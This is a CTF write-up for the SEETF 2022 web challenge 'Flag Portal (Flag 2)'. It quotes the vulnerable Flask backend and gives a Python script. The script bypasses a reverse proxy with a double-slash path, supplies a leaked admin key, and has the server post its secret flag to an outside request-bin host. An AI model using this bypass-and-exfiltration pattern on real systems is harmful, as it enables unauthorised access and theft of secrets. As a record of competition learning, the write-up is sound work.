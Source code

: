 ## Challenge Name: Flag Portal (Flag 2)
Author: zeyu2001  
Category: Web  
Points: 100  
Solves: 57  
<br>
>Welcome to the flag portal! Only admins can view the flag for now. Too bad you're behind a reverse proxy ¯\(ツ)/¯<br><br>
Note: There are two flags for this challenge.<br><br>
http://flagportal.chall.seetf.sg:10001

MD5: 0c4f55a57bd99f8438711c3734ccbf4f

[Download Zip File](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%202)/files/web_flagportal.zip "Zip File")

### Approach
This challenge is the 2nd part of a 2-part challenge so please read [our writeup for the first part of this challenge](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/Flag%20Portal%20(Flag%201).md) first if you haven't already.

From the previous part of the challenge, we have an admin key which is `spendable-snoring-character-ditzy-sepia-lazily`.  

This time, the page of interest is at `/api/flag-plz`. However, the proxy maps this to http://backend/forbidden too. Luckily, we can use the same method as from the previous part of the challenge to bypass this, thus getting an url of `http://flagportal.chall.seetf.sg:10001/api//flag-plz`.

Now, that we can access this site, how do we get the flag? Let's take a look at the source code first!

Looking at the code, we find a relevant snippet in the [backend/server.py](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%202)/files/web_flagportal/distrib/backend/server.py) file.
```py
@app.route('/flag-plz', methods=['POST'])
def flag():
    if request.headers.get('ADMIN_KEY') == os.environ['ADMIN_KEY']:
        if 'target' not in request.form:
            return 'Missing URL'

        requests.post(request.form['target'], data={
            'flag': os.environ['SECOND_FLAG'],
            'congrats': 'Thanks for playing!'
        })

        return 'OK, flag has been securely sent!'
            
    else:
        return 'Access denied'
```

From here, we can gather that we can make a post request to the challenge server with a [request bin](https://requestbin.com/) for the server to send the flag too. We also realise that the admin key needs to be in the post request header for this to work. Now, let's work on a python script to do the above.
```py
import requests

url = "http://flagportal.chall.seetf.sg:10001/api//flag-plz"
header = {'admin-key': "spendable-snoring-character-ditzy-sepia-lazily"}
data = {"target": "http://enihhe0s1djb.x.pipedream.net/"}
f = requests.post(url=url, headers=header, data=data)
print(f.content)
```

This sends the flag, which is `SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}` to our request bin. Yay!
![img](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%202)/files/Request.png "Image")

### Flag
`SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}`

---
[Back to home](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups)